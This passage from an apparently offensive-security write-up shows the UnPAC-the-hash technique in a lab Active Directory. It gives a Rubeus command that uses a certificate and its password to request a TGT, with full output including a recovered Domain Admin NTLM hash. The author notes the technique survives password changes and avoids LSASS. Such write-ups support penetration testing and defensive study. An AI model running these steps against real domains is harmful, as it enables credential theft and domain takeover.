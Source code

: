 ![unpac](/assets/img/adcs-1/unpac.png)

<br><br>

In the future, we will combine this technique with another one known as CertSync, which is a way to perform "DCSync" but using certificates. Now, let's perform this in a lab; locally, I have an AD environment already set up with ADCS and configured templates.
<br><br>

To execute this technique, the only requirement is that you need to know the certificate's password. So, whenever you're executing, ensure it's from a certificate you created or from a certificate with a weak password that you've managed to brute-force.
<br><br>

```powershell
    .\Rubeus.exe asktgt /getcredentials /user:paulo.victor /certificate:"C:\Tools\esc4-DA.pfx" /password:Senha /domain:corp.local /dc:corp-dc /show


    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
    [*] Using domain controller: 10.0.0.10:88
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

    doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlh....

    ServiceName              :  krbtgt/corp.local
    ServiceRealm             :  CORP.LOCAL
    UserName                 :  paulo.victor
    UserRealm                :  CORP.LOCAL
    StartTime                :  1/10/2025 11:33:04 PM
    EndTime                  :  1/11/2025 9:33:04 AM
    RenewTill                :  1/17/2025 11:33:04 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  rc4_hmac
    Base64(key)              :  YJHc9+T6Rdt8PrWc5eEdZQ==
    ASREP (key)              :  51901227A9A7C2FDF729D40313291627

    [*] Getting credentials using U2U

    CredentialInfo         :
        Version              : 0
        EncryptionType       : rc4_hmac
        CredentialData       :
        CredentialCount    : 1
        NTLM              : **E15E48546D35C3F2EF7FB995A4A9548E**
```

As you can see, I was able to capture the NTLM hash of my user, who is the owner of the template I used and also a Domain Admin within the environment. And as I mentioned, no matter how many times the user changes their password, you will always capture the current hash, all of this without even touching the **LSASS** process.
<br><br>
